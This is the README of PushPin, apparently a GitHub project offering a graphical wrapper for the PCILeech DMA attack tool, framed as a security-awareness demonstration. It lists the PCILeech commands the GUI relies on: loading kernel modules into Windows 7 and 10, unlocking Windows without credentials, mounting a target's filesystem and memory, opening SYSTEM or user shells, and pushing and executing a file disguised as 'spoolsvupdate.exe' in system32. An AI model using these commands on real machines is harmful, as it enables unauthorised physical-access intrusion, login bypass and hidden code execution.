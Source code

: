 ﻿# PushPin

Visual interface wrapper to PCILeech.

## Summary
PushPin is designed to provide a rapid, easy to use visual interface wrapper to a subset of the PCILeech projects capabilities. It also makes for a nice security awarness demonistration tool.

If you're not sure what PCILeech is please read up on the project first. https://github.com/ufrisk/pcileech

## Features

The GUI workflow is similar to the PCILeech CLI, first successfully load a KMD (KMD LOADERS) and then use the KMD address to load Kernel-mode implants (ACCESS). The following PCILeech kmdload, commands and Kernel-mode implants specfic to Windows Operating Systems are included. 

* Load a kernel module into Windows 7 or Windows 10 64-bit operating systems  
* Unlock Windows 
* Mount the targets filesystem and memory
* SYSTEM or USER command shell
* Push and Execute a file on the target as SYSTEM

### PushPin GUI overview
![](pushpin_description.PNG) 

### KMD Loader Update
Please use WIN10_X64_3 and then WIN10_X64 if it fails. WIN10_X64_3 is currently stable accross versions of Windows 10, including Windows 10 2004 release. 

### Logging
PushPin provides a minimal level of logging of actions taken while using the GUI. The PushPinLog.txt log file is created or appended when an action is taken.

## System Requirements
Tested with [PCILeech Version 4.8](https://github.com/ufrisk/pcileech) and functions correctly with the commands listed above. You can download PCILeech precompiled binarys [here](https://github.com/ufrisk/pcileech/releases/tag/v4.8).     

PushPin is developed in C# targeted for .NET Framework 4.5. Compile or use the precompiled PushPin.exe binary and place it into the the same directory as pcileech.exe. [Download the latest PushPin.exe](https://github.com/LuckyPi/PushPin/releases/latest).

At a miminum your directory should contain:
```
PushPin.exe
pcileech.exe
FTD3XX.dll
leechcore.dll
vmm.dll
wx64_filepush.ksh
wx64_pscmd.ksh
wx64_pscmd_user.ksh
wx64_pscreate.ksh
wx64_pslist.ksh
wx64_unlock.ksh
win7x64.kmd
```

#### <b>The following commands must work in the CLI for the GUI to work</b>

Load a kernel module into Windows 7x64 or Windows 10x64:
``` 
pcileech kmdload -kmd win7x64
pcileech kmdload -kmd win10_x64
pcileech kmdload -kmd win10_x64_3 -memmap auto 
```
*pcileech kmdload -kmd win10_x64 -memmap auto* - integrates with MemProcFS 

Unlock Windows:
```
pcileech wx64_unlock -kmd kmdaddress -0 1
```

Mount the targets filesystem and memory:
```
pcileech.exe mount -kmd kmdaddress
```

Command shell access as SYSTEM or USER:
```
pcileech wx64_pscmd -kmd kmdaddress
pcileech wx64_pscmd_user -kmd kmdaddress
```

Push and execute a file on the target:
```
pcileech wx64_filepush -kmd kmdaddress -in infile.exe -s \??\c:\windows\system32\spoolsvupdate.exe 
pcileech wx64_pscreate -kmd kmdaddress -s c:\windows\system32\spoolsvupdate.exe -0 syspid -4 1
```

## Disclaimer
Use at your own risk. This code is provided for educational purposes ONLY. Developers assume no liability and shall not be held responsible for any damage that may result from use or misuse of the provided code. It's the end users responsibility to obey all applicable local, state, federal and country specfic laws.  

### Changelog
v1.0 
 * Initial release.

v1.1
* Updated to reflect WIN10_X64_3 kernel module
